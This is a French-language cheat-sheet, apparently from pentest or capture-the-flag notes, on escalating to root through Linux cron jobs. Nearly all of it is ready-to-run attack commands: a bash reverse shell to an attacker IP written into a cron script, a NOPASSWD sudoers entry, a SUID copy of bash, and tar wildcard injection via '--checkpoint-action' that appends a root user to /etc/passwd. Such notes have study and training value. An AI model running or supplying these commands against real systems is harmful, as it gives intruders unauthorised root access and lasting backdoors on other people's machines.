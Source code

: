    - Si t'en a un, tu peux donc créer sur ta machine attaquante un reverse shell ou ce que tu veux avec msfvenom puis tu la télécharge sur la cible + `chmod 755 ./filename`

- Y'a un autre truc qui est lié aussi c'est que la cron task va s'exécuter avec le SHELL= ? par exemple `/bin/sh -c "`command in cron job" donc en fait on peut juste mettre un script à la place d'un payload de msfvenom.
    - Par exemple : `echo 'echo "devops ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers' > /dev/shm/systemctl` // ne jamais oublier de mettre `chmod 755`/dev/shm/systemctl pour qu'il ait les droits d'exec.
    - Ensuite tu peux check avec sudo -l pour voir si ça marche.

- Si tu n'as pas les permissions pour écrire dans un dossier, ça veut pas forcément dire que tu n'as pas les permissions pour écrire sur les fichiers dans ce dossier.
    - `ls -l /opt | grep "scripts"` // ça pourrait te renvoyer que tu n'as pas les permissions pour écrire
    - `ls -l /opt/scripts | grep "check-health.sh"` // ça pourrait te renvoyer que tu a les permissions pour écrire dedans.
    - Tu peux donc mettre ton payload à l'intérieur comme par exemple : `cp /bin/bash /tmp && chmod +s /tmp/bash` et tu le rajoute au début du script check-health.sh
    - Ensuite tu check le dossier /tmp pour voir si le fichier bash apparait avec le SUID bit : ls -l /tmp
    - Enfin si ça marche, tu peux donc lancer un shell en mode root (-p) : /tmp/bash -p

- Si par contre linpeas t'affiche le dossier qui contient la cron task en jaune/rouge, tu as les perm pour écrire dedans.
    - Donc si le fichier n'existe même pas dedans, tu peux le créer et mettre ton reverse shell dedans :
        - echo '#!/bin/bash' > /opt/scripts/backup.sh
        - echo "" >> /opt/scripts/backup.sh
        - echo 'bash -i >& /dev/tcp/ip_attacker/port_attacker 0>&1' >> /opt/scripts/backup.sh

- Si une cron job travaille dans un dossier auquel tu as accès/droit d'écriture, tu peux peut-être faire des Wildcard injection :
    - Imaginons que tu sois l'user www-data et qu'une cron task execute la commande :
        
        - `cd /var/www/html && tar -czf /root/website/backup.tar.gz *`
    - Étant donnée qu'on peut créer des fichiers dans ce dossier et que la commande prend en compte tous les fichiers, on pourrait créer un fichier qui utilise une wildcard pour faire une injection dans la commande tar. Pour tester si ça marche :
        
        - on peut créer un fichier : `touch '/var/www/html/--index-file=output.txt'`
            
        - la commande tar de la cron task va donc ressembler à un truc comme ça :
	             `tar -czf /root/website/backup.tar.gz --index-file=output.txt index.html info.php monkey.php webshell.php`

        - où les fichiers sont dans le dossier et notre fichier d'injection et interprété comme un switch. On va donc check si le fichier output.txt est bien créé. Si oui, et bah on peut l'exploiter.
            
    - Pour l'exploiter, on peut utiliser les switch "--checkpoint" et "--checkpoint-action" qui, quand la cron task va s'executer, le checkpoint va commencer et va donc trigger le checkpoint-action qui sera une commande qu'on voudra.
        
        - En premier lieu, on va créer un password qu'on va désigner comme le password de notre futur user rooté :
            - `openssl passwd "password"` // sur notre machine attaquante
        - Ensuite, on retourne sur notre cible et on va créer notre fichier shell (qu'on va nommé rootme.sh) qui sera executé par le checkpoint action :
            - `echo '#!/bin/bash' > /var/www/html/rootme.sh`
            - `echo "" >> /var/www/html/rootme.sh`
            - `echo 'echo "r00t:password_hashé:0:0:root:/root:/bin/bash" >> /etc/passwd' >> /var/www/html/rootme.sh`
            - `chmod 755 ./rootme.sh`
            - On créer donc un user "r00t" qui aura les permissions d'un user root, et on aura le password.
        - Enfin, on créer nos deux fichiers qu'on va utiliser pour les 2 switch :
            - `touch '/var/www/html/--checkpoint=1'`
            - `touch '/var/www/html/--checkpoint-action=exec=sh rootme.sh'`
        - Maintenant y'a plus qu'à attendre de voir si l'user est bien placé dans le fichier /etc/passwd. Si oui, on pourra alors se foutre en root.